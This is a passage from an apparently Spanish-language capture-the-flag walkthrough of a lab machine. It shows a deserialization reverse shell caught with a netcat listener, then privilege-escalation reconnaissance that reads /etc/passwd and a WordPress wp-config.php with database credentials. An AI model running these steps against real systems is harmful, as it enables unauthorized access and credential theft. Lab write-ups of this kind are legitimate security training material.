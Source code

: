 En la petición de BurpSuite remplazo obj con mi objeto serializado que contiene la reverse shell y le doy a Send, consiguiendo así ganar acceso al sistema como el usuario apache

![imagen](https://github.com/user-attachments/assets/9e0dcf19-b871-4a2e-ad06-ccf82b81fc93)

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.2.133] from (UNKNOWN) [192.168.2.140] 50826
bash: cannot set terminal process group (1004): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ whoami
whoami
apache
```

## Post exploitation

### Privilege escalation

Obtengo acceso al sistema como el usuario apache, este es un usuario con bajo privilegios por lo que debo de buscar alguna manera de pivotar hacia otro usuario. Comenzaré visualizando cuales son los usuarios que existen en el sistema.

```bash
bash-4.4$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
rocky:x:1000:1000::/home/rocky:/bin/bash
```

En /var/www/html/blog dentro del archivo wp-config.php observo una credenciales de acceso la base de datos, son válidas y consigo la contraseña hasheada del usuario de wordpress cereal, pero no es posible crackearla.

```bash
bash-4.4$ cat wp-config.php 
<?php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'newuser' );

/** MySQL database username */
define( 'DB_USER', 'newuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'VerySecureRandomPassword!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```
